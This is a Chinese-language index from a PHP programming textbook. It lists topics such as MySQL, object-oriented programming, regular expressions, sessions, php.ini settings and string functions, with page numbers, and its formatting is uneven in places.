- 练习参考答案，705–707
- 练习，506
- 从 Web 服务器获取信息，494–497
- 概述，471
- 小结，505–506
- 使用 HTTP。另见 HTTP（超文本传输协议）

### 交互式脚本
- 从命令行创建，768–770

### 交互式 Web 表单
- 242–249

### 交互式 Web 网站
- 3

### interface 关键字
- 204

### 接口
- 示例：创建，205–209
- 概述，204–205

### Internet Information 服务器 (IIS)
- 23

### is_dir()
- 用于确定目录文件，322

### is_executable()
- 用于检查文件权限，315

### is_file()
- 用于确定常规文件，322

### is_readable()
- 用于检查文件权限，315

### is_writeable()
- 用于检查文件权限，315

### _isset()
- 重载方法，191–192

### 迭代
- 160。另参见 循环

## J

### Java
- 与 PHP 比较，6
- 作为强类型语言，36

### 连接
- 从多个表中提取查询数据，379–381
- 在关系数据库中，343

### JPEG
- 示例：显示，521–523
- 图像格式，509
- 输出 JPEG 图像，511–512

### 文本两端对齐
- 83–87

## K

### key()，用于操作数组元素
- 110

### 键，数组和
- 102

### 键，在 RDBMS 中
- 外键，343
- 主键，342, 347
- UNIQUE 键与主键比较，370
- 使用，347–348

### krsort()，用于排序关联数组键
- 123

### ksort()，用于排序关联数组键
- 123

## L

### LAMP（Linux、Apache、MySQL 和 PHP）
- 12

### php.ini 的“语言选项”部分
- 722–726

### lcfirst()
- 用于大小写转换，88

### 字符串长度
- 77–78

### 小于 (<)
- PHP 比较运算符，44

### 小于或等于 (<=)
- PHP 比较运算符，44

### LIKE 运算符
- 用于灵活查询，374–376

### 线条
- 绘制，513–514

### 链接
- 示例：查找网页中的所有链接，553–555

### Linux
- 另见 Ubuntu

### Linux、Apache、MySQL 和 PHP (LAMP)
- 12

### list()
- 用于将数组转换为变量列表，137–138

### 列表框
- 在 HTML 表单中，228

### 局部变量
- 151–152

### log_errors
- 配置指令，647

### LogEntry 类
- 添加删除方法，430
- 增强以用于网站会员区域，419
- 成员记录查看器与，394–395

### 日志记录
- 错误，647–648
- PHP 配置与，727–731

### 逻辑运算符
- 45–46

### 登录脚本
- 用于网站会员区域，421–423

### 登录系统
- 创建，292–295

### 注销脚本
- 用于网站会员区域，424

### 遍历数组
- foreach() 用于修改值，115–116
- foreach() 用于遍历键和值，114–115
- foreach() 用于遍历值，114
- 多维数组与，119–121
- 概述，113–114

### 循环。另参见 决策
- 用于跳出的 break 语句，64
- 用于跳过迭代的 continue 语句，64–65
- 定义，51
- do...while 循环，60–61
- 示例：信鸽模拟器，66–70
- 练习参考答案，674–677
- 练习，72
- 与 HTML 混合，70–72
- 嵌套，65–66
- 概述，59
- for 语句，61–63
- 小结，72
- while 循环，59–60

### 弱类型语言
- 36

### 无损压缩
- 509

### 有损压缩
- 509

### 小写
- 字符串转换，87–89

### ltrim()
- 用于修剪字符串，95

## M

### Mac、Apache、MySQL 和 PHP
- 另见 MAMP（Mac、Apache、MySQL 和 PHP）

### Mac OS X
- 在其中安装 PHP，17–19
- 在其中启动 MySQL 服务器，349–350
- 在其中测试 PEAR 包管理器，443–444


- 魔术引号功能，已在 PHP 6 中移除
- mail()
  - 控制电子邮件地址的回送路径，499-500
  - 发送电子邮件，497-498
  - 指定发件人地址和添加标头，498-499

- 文本编辑器代码的主逻辑，330-331
- MAMP (Mac, Apache, MySQL, 和 PHP)
  - Mac OS X 上的 PHP 安装，17-19
  - 在 Mac OS X 上启动 MySQL 服务器，349-350
  - 在 Mac OS X 上测试 PEAR 包管理器，443-444

- 操作数组，121
- 图像，520
- 精通正则表达式 (Friedl)，542
- MySQL 数学函数，385
- max(), 用于汇总查询数据，377
- Member 类
  - 成员管理应用程序，428-430
  - 成员记录查看器应用程序，390-394
  - 成员注册应用程序，409-411

- 成员管理器应用程序
  - 向 LogEntry 类添加删除方法，430
  - 向 Member 类添加更新和删除方法，428-430
  - 创建 view_member.php 脚本，431-437
  - 概述，428
  - 测试，437-438
  - 调整 view_members.php 脚本，431

- 成员记录查看器应用程序
  - common.inc.php，387
  - config.php 文件，386-387
  - DataObject 类，388-390
  - LogEntry 类，394-395
  - Member 类，390-394
  - 概述，385-386
  - 测试应用程序，400-401
  - view_member.php 脚本，399-400
  - view_members.php 脚本，395-398

- 成员注册应用程序
  - 向 common.inc.php 添加公共代码，408-409
  - 创建注册脚本，411-416
  - 增强 Member 类，409-411
  - 概述，408
  - 测试，416
- 网站的会员区域
  - 添加身份验证方法，418
  - 向 common.inc.php 添加公共代码，420-421
  - 为...创建页面，424-426
  - 增强 LogEntry 类以记录页面浏览量，419
  - ...的登录脚本，421-423
  - ...的注销脚本，424
  - 概述，417-418
  - 测试，426-428

- HTML 表单上的菜单，227-228
- 合并数组，134-136
- 方法调用重载，187
- 概述，175

- 方法
  - 抽象，200-204
  - 从...访问对象属性，175-176
  - 向...添加参数，175
  - 调用，175
  - 构造函数，209-210
  - 创建，174
  - 析构函数，210-211
  - DOM 类，595
  - Exception 对象，654
  - 用于阻止继承和重写的 final 方法，199-200
  - 用于检查方法参数的提示，180-182
  - HTML_QuickForm 包，456-457
  - HTML_Table 包，450-452
  - 使用 _call() 重载方法调用，187
  - 概述，168
  - SimpleXML，607
  - 静态方法，179-180
  - 可见性，174

- 微秒，481-483
- Microsoft Access 数据库，763
- microtime(), 用于处理微秒，481-482
- MIME (多用途互联网邮件扩展)
  - 文件上传表单和，257
  - 发送 HTML 电子邮件和，500-501
- min(), 用于汇总查询数据，377
- mkdir(), 用于创建目录，320
- mktime(), 用于从日期/时间值创建时间戳，473
- 模式（权限），314
- 数据库模型，339-340
- 模块化代码，用于高质量应用程序，620

- 多维数组
  - 访问...的元素，118-119
  - 创建，117-118
  - 遍历，119-121
  - 概述，116-117
- 多行注释，29-30, 632
- 多用途互联网邮件扩展 (MIME)
  - 文件上传表单和，257
  - 发送 HTML 电子邮件和，500-501
- HTML 表单的多步表单示例，250-256
- HTML 表单的多值字段
  - 带有...的示例注册表单，237-242
  - 概述，236
- MySQL
  - 向表中添加数据，355
  - 选择数据库引擎，340
  - 从 PHP 连接，359
  - 创建数据库，353-354
  - 创建表，354-355
  - 数据类型，344
  - 日期和时间数据类型，345
  - 从表中删除数据，358
  - 删除表和数据库，358-359
  - 错误处理，360-361
  - 使用 PHP 读取数据库表的示例，362-364
  - 练习解答，698-699
  - 练习，366
  - 在 Mac OS X 上安装 PHP，17-18
  - 在 Ubuntu 上安装 PHP，14
  - 在 Windows 上安装 PHP，16
  - 从 PHP 建立连接，360
  - 数值数据类型，344-345
  - PHP 6 和 Unicode 和，365
  - 与 PostgreSQL 相比，759-760
  - ...中的程序，349
  - 从 PHP 读取数据，361-374
  - 读取表中的数据，356-357
  - 设置 root 密码，350-353
  - 启动 MySQL 服务器，349-350
  - 字符串数据类型，346-347
  - 摘要，365-366
  - 更新表中的数据，357
- MySQL，数据操纵
  - 创建会员区域。参见网站的会员区域
  - 删除记录，407
  - 练习解答，701-702
  - 练习，439
  - 插入记录，403-405
  - 成员管理。参见成员管理器应用程序
  - 成员注册。参见成员注册应用程序
  - 概述，403
  - 摘要，438-439
  - 更新记录，406
- MySQL，数据检索
  - 用于简化查询的别名，381-382
  - BINARY 属性和排序规则和，369
  - 消除查询中的重复结果，377-378
  - ENUM 数据类型和，370-371
  - 练习解答，700-701
  - 练习，402
  - 分组查询结果，378-379
  - 成员记录查看器应用程序。参见成员记录查看器应用程序
  - 运算符和函数，382-385
  - 概述，367
  - 用于灵活查询的模式匹配，374-376
  - 查询多个表，379-381
  - 用于...的 SELECT 语句，371-372
  - 设置示例数据库，367-369
  - 排序查询结果，373-374
  - 汇总查询数据，376-377
  - 摘要，401-402
  - TIMESTAMP 数据类型和，371
  - UNIQUE 约束和，370
  - 用于限制返回行数的 WHERE 子句，372-373
- MySQL 改进版 (mysqli)，359
- mysqli (MySQL 改进版)，359

- 名称/命名
  - 类，168
  - 文件名，299
  - 标识符，631
  - 重命名文件，316
  - 用户名，418
  - 变量，34
- 命名空间
  - 用于避免冲突，625-630
  - 模块化代码和，620
  - XML，581
- 嵌套数组。参见多维数组

## 嵌套包含

- 嵌套包含，622
- 嵌套循环，65-66
- Net_UserAgent_Detect 包，448-449
- next(), 用于操作数组元素，110
- XML 文档中的节点，更改，603-605
- 非贪婪匹配，546
- 范式，342
- 规范化，关系数据库和，341-342
- 非 (!)，PHP 逻辑运算符，46
- 非 (!)，使用...设置配置指令值，720
- 非 (~)
  - PHP 位运算符，43
  - 设置配置指令值，720
- 非，布尔运算符，384
- 不等于 (!=)，PHP 比较运算符，44
- 不全等于 (!==)，PHP 比较运算符，44
- NOTLIKE 运算符，用于灵活查询，376
- now(), MySQL 函数，384
- nowdoc 语法，用于分隔符，76-77
- NULL 值，SQL 语句和，349
- 等于 (<=>) 的 NULL 安全版本，MySQL 比较运算符，383-384
- number_format(), 用于格式化数字，98-99
- 数字
  - 格式化字符串数字，98-99
  - MySQL 数值类型，344-345

## O

- 面向对象编程。参见 OOP (面向对象编程)
- 对象
  - 从方法访问对象属性，175-176
  - 构造函数，209-210
  - 创建，168-169
  - 析构函数，210-211
  - 确定...的类，215-216
  - 用于处理错误的 Exception 对象，652-653
  - 重载。参见重载
  - 概述，167-168
  - 作为字符串存储，213-214
  - 使用目录对象，321-322
- ODBC (开放数据库互连)，763-764
- ODF (OpenDocument 格式)，573
- Office Open XML (OOXML)，573
- 关系数据库中的一对多关系，343
- OOP (面向对象编程)
  - 抽象类和方法，200-204
  - 访问属性，170-172
  - 从方法访问属性，175-176
  - 向方法添加参数，175
  - ...的优势，166-167
  - 自动加载类文件，212-213
  - 基本概念，167
  - 调用方法，175
  - 类常量，173-174
  - 类，167
  - 遵循活动记录设计模式的类，388
  - 用于创建对象的构造函数，209-210
  - 创建类和对象，168-169
  - 创建方法，174
  - 声明属性，170
  - 用于清理对象的析构函数，210-211
  - 确定对象的类，215-216
  - 封装，182-183
  - PHP 的演进和，7, 9
  - 创建接口的示例，205-209
  - 创建父类和子类的示例，193-196
  - 创建包装字符串类的示例，188-191
  - 汽车包装示例，177-179
  - 练习解答，686-688
  - 练习，218
  - 用于阻止继承和重写的 final 类和方法，199-200
  - 用于检查方法参数的提示，180-182
  - 继承，192-193
  - 接口，204-205
  - 方法可见性和，174
  - 方法，168
  - 对象，167-168
  - 重载，183-184
  - 重载方法，187, 191-192
  - 重载属性访问，184-187
  - 在父类中重写方法，196-198
  - 概述，165
  - 保留父类功能，198-199
  - 属性，168
  - 属性可见性和，169-170
  - 静态方法，179-180


- 静态属性，172–173
- 将对象存储为字符串，213–214
- 摘要，217
- 它是什么，166
- 使用目录对象，321–322
- OOXML (Office Open XML)，573
- 图片的不透明度，527–528
- 开放数据库互连 (ODBC)，763–764
- 开源数据库
  - MySQL，759
  - PostgreSQL，759
  - SQLite，759–761
- opendir()，用于打开目录，317
- OpenDocument 格式 (ODF)，573
- 打开文件，300–302
- 打开图像，521–523
- 操作数，40
- 运算符
  - 算术运算符，41
  - 赋值运算符，41–42
  - 位运算符，42–43
  - 比较运算符，43–44
  - 已定义，33
  - 自增/自减运算符，44–45
  - 逻辑运算符，45–46
  - MySQL，382–385
  - 概述，40–41
  - 优先级，47–48
  - 字符串运算符，46–47
- php.ini 的选项部分，722
- OR (||)，PHP 位运算符，42
- or (||)，PHP 逻辑运算符，46
- OR，布尔运算符，384
- or，PHP 逻辑运算符，46
- Oracle，762
- Oracle Berkeley DB，761
- ORDER BY 子句，用于对查询结果排序，373–374
- 输出图像，511–512
- 重载
  - 示例：创建包装器字符串类，188–191
  - 方法调用，187, 191–192
  - 概述，183–184
  - 属性访问，184–187
- 重写
  - 使用 final 类和方法阻止，199–200
  - 父类中的方法，196–198

## P

- 填充说明符，printf()，92
- 用 str_pad() 填充字符串，96
- 显示页眉，334
- 页面浏览量，记录访问者访问网站会员区域，419
- 分页，使用平方数进行，270–274
- 参数
  - 添加到方法，175
  - 定义函数，145–146
  - 错误处理程序，649
  - 可选，147–148
- 父类
  - 示例：创建，193–196
  - 重写其中的方法，196–198
  - 概述，192
  - 保留其功能，198–199
- XML 解析错误，584–585
- XML 解析器。另见 XML Parser
- 密码
  - 向 Member 类添加身份验证方法，418
  - 设置 MySQL root 密码，350–353
- 路径，PHP 配置与，734–736
- 模式匹配，541–542
  - 使用模式修改符更改匹配行为，560–562
  - 用于在指定位置匹配的锚点，548–550
  - 后向引用，547–548
  - 示例：查找网页中所有链接，553–555
  - 查找多个匹配项，550–552
  - 用于灵活查询，374–376
  - 贪婪和非贪婪，546
  - 匹配备选模式，548
  - 使用字符类匹配字符，544–545
  - 匹配字面量字符，542–543
  - 匹配多个字符，545–546
  - 子模式作为分组模式的手段，546–547
- 模式修改符，560–562
- PDO (PHP Data Objects)
  - 使用它连接 ODBC 数据库，763
  - 它支持的数据库系统，764
  - 错误处理与，360–361
  - 示例：使用 PDO 创建 Oracle 数据库，762
  - 示例：使用 PDO 创建 SQLite 数据库，758–759
  - 建立数据库连接与，360
  - 从 PHP 向 MySQL 传递 DELETE 语句，407
  - 从 PHP 向 MySQL 传递 INSERT 语句，404
  - 从 PHP 向 MySQL 传递 UPDATE 语句，406
  - 从 PHP 读取数据，361–374
  - 从 PHP 连接到 MySQL 的方式，359
- php.ini
  - 关于，720–722
  - 数据处理，731–734
  - 动态扩展，737–739
  - 错误处理和日志记录，727–731
  - 文件上传，736
  - fopen() 包装器，736–737
  - 语言选项部分，722–726
  - 杂项部分，726–727
  - 模块设置，739–756
  - 选项部分，722
  - 概述，719–720
  - 路径和目录，734–736
  - 资源限制与，727
  - 使用它设置配置指令，719
- PEAR (PHP Extension and Application Repository)
  - 编码标准，631
  - 示例：按天计算年龄，483–487
  - 示例：检测访问者浏览器，448–449
  - 练习答案，703–704
  - 练习，470
  - HTML_Table 包。另见 HTML_Table 包
  - 安装依赖项，447
  - 安装 PEAR 包，446–447
  - 概述，441–442
  - phpDocumentor 包。另见 phpDocumentor 包
  - 摘要，470
  - 在 Mac OS X 和 MAMP 上测试 PEAR 包管理器，443–444
  - 在 Ubuntu 上测试 PEAR 包管理器，442–443
  - 在 Windows 上的 WampServer 上测试 PEAR 包管理器，444–446
  - 卸载包，447
  - 使用 PEAR 包，448
  - Validate 包，643
  - preg_grep()，用于搜索数组，556
- PHP Data Objects。另见 PDO (PHP Data Objects)
- PHP Extension and Application Repository。另见 PEAR (PHP Extension and Application Repository)
- PHP 安装/设置
  - 注释，29–30
  - 编译 PHP，23–24
  - 创建第一个脚本，24–25
  - 在 HTML 中嵌入 PHP，25–27
  - 增强脚本，28–29
  - 练习，30
  - 练习答案，673
  - 在 Mac OS X 上，17–19
  - 创建/运行脚本的先决条件，12
  - 远程运行，24
  - 运行 PHP 的服务器选项，23
  - 摘要，30
  - 测试 PHP，20–21
  - 测试 Web 服务器，19–20
  - 时区设置，21–22
  - 在 Ubuntu Linux 上，12–14
  - 在 Windows 操作系统上，15–17
- Perl，6
- 文件权限
  - 更改，314–315
  - 检查，315–316
  - 概述，313–314
- 持久存储机制，297
- PHP，简介
  - 演变，7
  - 使用原因，5–7
  - 摘要，9
  - 什么是 PHP，3–5
  - PHP 6 中的新增功能，7–9
- PHP 配置
- PHP 语言基础
  - 算术运算符，41
  - 赋值运算符，41–42
  - 位运算符，42–43
  - 通过强制转换更改类型，38–40
  - 更改变量类型，38
  - 比较运算符，43–44
  - 常量，48–50
  - 创建变量，34–35
  - 数据类型，35–36
  - 练习答案，674
  - 练习，50
  - 自增/自减运算符，44–45
  - 逻辑运算符，45–46
  - 弱类型，36
  - 命名变量，34
  - 运算符优先级，47–48
  - 运算符类型，40–41
  - 概述，33
  - 字符串运算符，46–47
  - 摘要，50
  - 测试变量类型，36–38
  - 使用变量，33–34
- phpdoc 命令，634
- phpDocumentor 包
  - 示例：使用，636–640
  - 用于外部文档，633–635
- PHPUnit
  - 使用它自动化代码测试，666–667
  - 示例：编写简单单元测试，667–670
- PIs (处理指令)，用于 XML 文档，576
- 绘制单个像素，512–513
- PNG
  - 图像格式，509
  - 输出 PNG 图像，511–512
- 绘制多边形，516–517
- post 方法，用于向服务器发送表单数据，229
- post_max_size，配置指令，731, 736
- PostgreSQL，759–761
  - 与 MySQL 相比，759–760
  - 示例脚本，760–761
  - 概述，759
- 运算符优先级，47–48
- 精度说明符，printf()，93
- preg_match()，用于模式匹配，541–542
- preg_match_all()
  - 示例：查找网页中所有链接，553–555
  - 使用它查找多个匹配项，550–552
- preg_replace()，用于替换文本，557–559
- preg_replace_callback()，使用回调函数替换文本，560
- preg_split()，用于分割字符串，157, 562–564
- 表示逻辑，将应用程序逻辑与之分离，662–666
- prev()，用于操作数组元素，110
- 主键
  - 在关系数据库中，342
  - 与 UNIQUE 键相比，370
- print()，25
- print_r()，用于输出整个数组，105–107
- printf()
  - 填充说明符与，92
  - 精度说明符与，93
  - 符号说明符与，91
  - 用于交换参数，93–94
  - 类型说明符与，90–91
- 私有方法，174
- 私有属性，170
- 过程式编程，166
- 处理指令 (PIs)，用于 XML 文档，576
- MySQL 中的程序，349
- 属性
  - 访问，170–172
  - 从方法访问，175–176
  - 声明，170
  - 概述，168
  - 静态，172–173
  - 可见性，169–170
- 受保护方法，174
- 受保护属性，170
- 公共方法，174
- 公共属性，169
- Python，6

## Q

- 量词
  - 贪婪和非贪婪匹配，546
  - 用于匹配多个字符，545–546
- SQL 查询
  - 用于简化的别名，381–382
  - 消除重复结果，377–378
  - 对结果分组，378–379
  - SQL 语句列表，348
  - 用于灵活查询的模式匹配，374–376
  - 查询多个表，379–381
  - 对结果排序，373–374
  - SQLite 与，758
  - 汇总其返回的数据，376–377


## 查询 SQL (续)
- 用于限制查询返回行数的 WHERE 子句，372–373

## 查询字符串
- 访问其中的数据，270
- 构建，268–270
- 使用平方数分页的示例，
  270–274
- 概述，268
- 在其中传递会话 ID，289–290

## 字符串语法中的引号，74–75

## R

## HTML 表单上的单选按钮，226

## RAM
- 在 PHP 配置期间设置资源限制，727
- 作为临时存储机制，297

## 栅格图像，509

## RDBMS (关系数据库管理系统)。另参见 MySQL
- 日期和时间数据类型，345
- 练习解答，698–699
- 练习，366
- 索引和键，347–348
- MySQL 数据类型，344
- 规范化与，341–342
- 数值数据类型，344–345
- Oracle，762
- 概述，341
- 用于与其通信的 SQL，343
- SQL Server，763
- SQL 语句，348–349
- 字符串数据类型，346–347
- 摘要，365–366
- 数据库模型的类型，340

## readdir()，用于读取目录，317

## readfile()，用于读取文件，312

## 读取/写入
- 整个文件，310–312
- 写入文件，303–304
- 会话数据，283
- 字符字符串，304–305

## record()，用于记录页面浏览量，419

## 关系数据库中的记录，341

## 矩形
- 绘制，514
- 绘制圆角矩形的示例，
  517–520

## 递归函数
- 使用递归创建斐波那契数列的示例，
  161–163
- 概述，160–161

## 红、绿、蓝 (RGB) 颜色模型，508

## HTML 表单的重定向，264–265

## 引用
- 对数组元素的引用，116
- 概述，158–159
- 传递给函数，159
- 从函数返回，160

## Register Globals 功能，PHP 6 中已移除，8

## 注册表单
- 使用 HTML_QuickForm 包的示例，
  462–469
- 具有多值字段，237–242

## 会员注册应用程序的注册脚本，411–416

## 正则表达式
- 锚点与，548–550
- 逆向引用，547–548
- 检查输入，642–643
- 查找网页中所有链接的示例，
  553–555
- 验证表单输入的示例，564–570
- 练习解答，712–713
- 练习，571–572
- 查找多个匹配项，550–552
- 贪婪和非贪婪匹配，546
- 匹配替代模式，548
- 使用字符类匹配字符，
  544–545
- 匹配文字字符，542–543
- 匹配多个字符，545–546
- 概述，539
- 模式匹配与，541–542
- 模式修饰符与，560–562
- 使用回调函数替换文本，560
- 使用 preg_replace() 替换文本，
  557–559
- 搜索数组，556
- 分割字符串，562–564
- 子模式与，546–547
- 摘要，571
- 它们是什么，540–541

## 重新索引数组，122

## PHP 的远程操作，24

## removeChild()
- 移动 XML 文档中的元素，606
- 移除 XML 元素，602

## rename()，用于重命名文件，316

## 重复。另参见 循环

## replaceData()，用于更改 XML 节点和属性，603

## 替换文本
- 概述，557
- 使用 preg_replace()，557–559
- 在字符串中，81
- 使用回调函数，560

## HTTP 请求消息，489–490

## request_order，配置指令，731

## require()，用于包含文件，621–622

## require_once()，用于仅包含文件一次，621–622

## 包含文件
- 动态包含，625
- 包含路径，623–625
- 仅一次，622–623
- 概述，621–622
- 编写模块化代码与，620

## reset()，用于操作数组元素，110

## 资源数据类型，300

## 资源限制，PHP 配置与，727

## HTTP 响应消息
- 修改，493–494
- 概述，490–493

## SQL 查询的结果集，348

## return 语句
- 返回值的函数与，150
- 从函数返回引用，160
- 从方法返回值，175

## rewind()，用于对文件数据进行随机访问，312–313

## rewinddir()，用于重置目录指针，319

## RGB (红、绿、蓝) 颜色模型，508

## rmdir()，用于删除目录，320

## XML 的根元素，574

## 设置 MySQL 的 root 密码，350–353

## 行
- 在关系数据库中，341
- 用于限制查询返回行数的 WHERE 子句，372–373

## rsort()，用于对索引数组进行排序，121–122

## RSS 订阅源，573

## rtrim()，用于修剪字符串，95

## Ruby，6

## 从命令行运行脚本，766–767

## 运行时错误，644

## S

## 安全模式，PHP 6 中已移除，8

## saveFile()，编辑文本文件与，332–333

## 标量数据类型，35

## 从命令行调度脚本，770–772

## 脚本语言，4–5

## 脚本，示例应用程序
- 年龄计算器，483–487
- 浏览器检测，448–449
- 汽车模拟器，177–179
- 遍历目录层次结构，323–325
- 绘制线条，513–514
- 绘制圆角矩形，517–520
- 电子邮件联系表单，501–505
- 使用 HTML_Table 包显示斐波那契数列，452–454
- 使用递归的斐波那契数列，161–163
- 文件上传，260–264
- 表单处理程序，231–234
- 表单输入验证，564–570
- 问候语显示，57–58
- 命中计数器，305–307
- 信鸽模拟器，66–70
- 交互式 Web 表单，242–249
- 显示 JPEG 图像，521–523
- 查找网页中所有链接，553–555
- 列出目录条目，317–319
- 会员区域的登录脚本，421–423
- 会员区域的注销脚本，424
- 会员记录查看器，395–400
- 会员注册，411–416
- 多步骤 HTML 表单，250–256
- OOP 接口，205–209
- 父类和子类，193–196
- 解析 XML 文件，585–589
- phpDocumentor，636–640
- PHPUnit 测试，667–670
- 读取 MySQL 表，362–364
- 读取 XML 文档，591–594
- 使用 HTML_QuickForm 包的注册表单，462–469
- 具有多值字段的注册表单，237–242
- 记住用户信息，278–282
- 将应用程序逻辑与表示逻辑分离，662–666
- 购物车，284–289
- 按长度排序单词，155–158

## 脚本，示例应用程序 (续)
- 飞船飞行模拟器，655–660
- 使用 PDO 创建的 SQLite 数据库，758–759
- 显示系统字体，532–533
- 文本编辑器，326–328
- 使用 TrueType 字体显示文本，534–535
- 用户登录系统，292–295
- 字符串类的包装器，188–191
- 使用 DOM 创建的 XML 文档，596–599

## PHP 脚本
- 在其中访问 cookie，277
- 使用检查输入，642
- 命令行选项，772–773
- 创建第一个脚本，24–25
- 从命令行创建交互式脚本，768–770
- 使用编码输出，643
- 增强，28–29
- 使用进行错误处理，648–651
- 常见示例，4
- 在其中重复使用的函数，142
- 从命令行传递参数，767–768
- PHP 作为服务器端脚本语言，4
- PHP 用于命令行脚本，5
- 创建/运行的先决条件，12
- 从命令行运行，766–767
- 从命令行调度，770–772

## 使用 preg_grep() 搜索数组，556

## 搜索字符串
- 概述，78–79
- strpbrk()，用于查找字符集，81
- strpos() 和 strrpos()，用于定位文本，79–80
- strstr() 用于搜索，79
- substr_count() 用于查找出现次数，80–81

## 安全
- 检查输入与，641–643
- Cookie 与，282
- 编码输出与，641, 643–644
- 表单数据的安全性，234

## SELECT 语句
- 从 MySQL 表读取数据，356–357
- SQL 查询与，348

## SELECT 语句
- 用于简化查询的别名，381–382
- 消除查询中的重复结果，377–378
- 对查询结果分组，378–379
- 概述，371–372
- 用于灵活查询的模式匹配，374–376
- 查询多个表，379–381
- 对查询结果排序，373–374
- 汇总查询数据，376–377
- 用于限制返回行数的 WHERE 子句，372–373

## 电子邮件与发件人地址，498–499

## serialize()，用于将对象存储为字符串，213

## 服务器。另参见 Web 服务器
- MySQL，349–350
- SQL Server，763
- WampServer，349–350, 444–446

## 服务器端脚本，4

## 会话 ID (SIDs)
- 概述，282
- 在查询字符串中传递，289–290

## session_destroy()，用于销毁

## 会话，289

## session_start()，用于创建会话，282–283

## 会话
- 更改行为，290–291
- 创建，282–283
- 销毁，289
- 创建购物车的示例，284–289
- 创建用户登录系统的示例，292–295
- 概述，282
- 在查询字符串中传递会话 ID，289–290
- 读取/写入会话数据，283

## set()，用于重载属性访问，184–187

## set_error_handler()，648–651

## setcookie()，276

## 设置 PHP。另参见 PHP 安装/设置

## settype() 函数，用于更改变量类型，38, 40

## SGML (标准通用标记语言)，573

## 绘图的形状与坐标系统，508–509

## 左移 (<<)，PHP 位运算符，43

## 右移 (>>)，PHP 位运算符，43

## 购物车脚本，284–289

## SHOW TABLE 命令，MySQL，355

## SIDs (会话 ID)
- 概述，282
- 在查询字符串中传递，289–290

## 符号说明符，printf() 与，91


- **简单数据库, 339**

- **SimpleXML**
  - 在 SimpleXML 和 DOM 对象之间转换, 612
  - 使用其创建 XML 文档, 610–612
  - 概述, 606–608
  - 使用其读取 XML 文档, 608–610

- **单引号 (‘), 在字符串语法中, 74–75**

- **单行注释, 29–30, 632**

- 斜杠 (/), 在正则表达式语法中, 543

- PHP 快照, 23

- **SOAP, 573**

- sort(), 用于对索引数组排序, 121–122

- **排序**
  - 查询结果, 373–374
  - 按长度对单词排序, 155–158

- **对数组排序**
  - 关联数组键, 123
  - 关联数组, 122–123
  - 索引数组, 121–122
  - 多重排序, 124–128
  - 选项, 121

- **稀疏数组, 109**

- **特殊数据类型, 36**

- sprintf(), 用于存储结果而不是打印, 94

- **SQL (结构化查询语言)**
  - 用于与关系型数据库通信, 343
  - Oracle 对其的使用, 762
  - 与关系型数据库一起使用的 SQL 语句, 348–349
  - SQLite 对其的使用, 758

- **SQL 查询。参见 查询, SQL**

- **SQL Server, 763**

- **SQLite, 757–759**
  - 使用 PDO 创建的示例, 758–759
  - 特性/何时使用, 758
  - 概述, 757

- **方括号 ([])**
  - 添加数组元素及其用法, 104–105
  - 处理 HTML 表单中的多值字段, 236

- **平方数, 用于分页中, 270–274**

- SSH 客户端, 用于远程运行 PHP, 24

- **标准通用标记语言 (SGML), 573**

- 标准
  - 类名规范, 168
  - 为保持一致性的编码标准, 630–631

- **状态保持**
  - 在脚本中访问 Cookie, 277
  - 访问查询字符串中的数据, 270–274
  - 构建查询字符串, 268–270
  - 更改会话行为, 290–291
  - Cookie 的组成部分, 274–275
  - Cookie, 274
  - 创建会话, 282–283
  - 销毁会话, 289
  - 创建购物车的示例, 284–289
  - 创建用户登录系统的示例, 292–295
  - 记住用户信息的示例, 278–282
  - 练习参考答案, 692–696
  - 练习, 296
  - 概述, 267
  - 在查询字符串中传递会话 ID, 289–290
  - 查询字符串, 268
  - 读取/写入会话数据, 283
  - 删除 Cookie, 278
  - 会话, 282
  - 设置 Cookie, 276
  - 总结, 296

- **static 关键字**
  - 创建静态方法, 179–180
  - 创建静态属性, 172–173

- **静态方法, 179–180**

- **静态属性, 172–173**

- **静态变量, 153–154**

- **静态网页, 3**

- **状态代码, HTTP 响应, 491**

- **遍历数组, 109–113**

- **存储**
  - 决定如何存储数据, 338
  - 持久性与临时性, 297

- str_pad(), 用于填充字符串, 96

- str_replace(), 用于替换字符串中的文本, 81–82

- strbrk(), 用于查找字符集, 81

- **字符串数据类型, MySQL, 346–347**

- **字符串匹配。参见 模式匹配**

- **字符串运算符, 46–47**

- **字符串**
  - 访问字符串中的字符, 78
  - 大小写转换, 87–89
  - 将值转换为字符串, 39
  - 包含复杂表达式, 75–76
  - 与数组相互转换, 136–137
  - 创建/访问, 74–75
  - 界定符, 76–77
  - 练习参考答案, 677–678
  - 练习, 100
  - 查找长度, 77–78
  - 格式化, 89
  - 格式化日期字符串, 478–481
  - 格式化数字, 98–99
  - MySQL 函数, 385
  - 创建选项, 77
  - 概述, 73
  - 填充, 96
  - 填充说明符, 92
  - 精度说明符, 93
  - printf() 用于交换参数, 93–94
  - 替换其中的文本, 81
  - 搜索, 78–79
  - 符号说明符, 91
  - 使用正则表达式分割, 562–564
  - sprintf() 用于存储结果而不是打印, 94
  - 将函数存储在字符串变量中, 144
  - 将对象存储为字符串, 213–214
  - str_replace() 用于替换所有出现, 81–82
  - strrbrk() 用于查找字符集, 81
  - strpos() 和 strrpos() 用于定位文本, 79–80
  - strspn() 用于搜索, 79
  - strtr() 用于转换字符, 87
  - substr_count() 用于查找出现次数, 80–81
  - substr_replace() 用于替换字符串的一部分, 82–87
  - 总结, 99
  - 修剪, 95
  - 类型说明符, 90–91
  - 换行, 96–98

- strlen(), 用于查找字符串长度, 77–78

- 强类型语言, 36

- strpos(), 用于在字符串中定位文本, 79–80

- strrpos(), 用于在字符串中定位文本, 80

- strrpos(), 用于搜索字符串, 79

- strtolower(), 用于大小写转换, 88

- strtotime(), 从日期和时间字符串创建时间戳, 474–475

- strtoupper(), 用于大小写转换, 88

- strtr(), 用于转换字符, 87

- 结构化查询语言。参见 SQL (结构化查询语言)

- 子目录, 298

- 子模式
  - 反向引用和, 547–548
  - 作为分组模式的手段, 546–547

- 子程序。参见 函数

- substr(), 用于从字符串中提取字符, 78

- substr_count(), 用于查找出现次数, 80–81

- substr_replace(), 用于替换字符串的一部分, 82–87

- 减法 (-), PHP 算术运算符, 35

- Sun Java, 631

- 超全局数组
  - $_COOKIE, 277
  - $_FILES, 257–258
  - $_GET, 230
  - $_POST, 230
  - $_REQUEST, 230
  - $_SERVER, 494–496
  - $_SESSION[], 283, 289

- 超全局变量, 153

- switch 语句, 用于多次测试一个表达式, 55–56

- Synaptic Package Manager, 12–14

- 语法错误, 644

- XML 语法规则, 577–578

## T

- 表
  - 使用 HTML_Table 包创建 HTML 表, 450–452
  - 在关系型数据库中, 341

- 表, MySQL
  - 添加数据到, 355
  - 创建, 354–355
  - 删除, 358–359
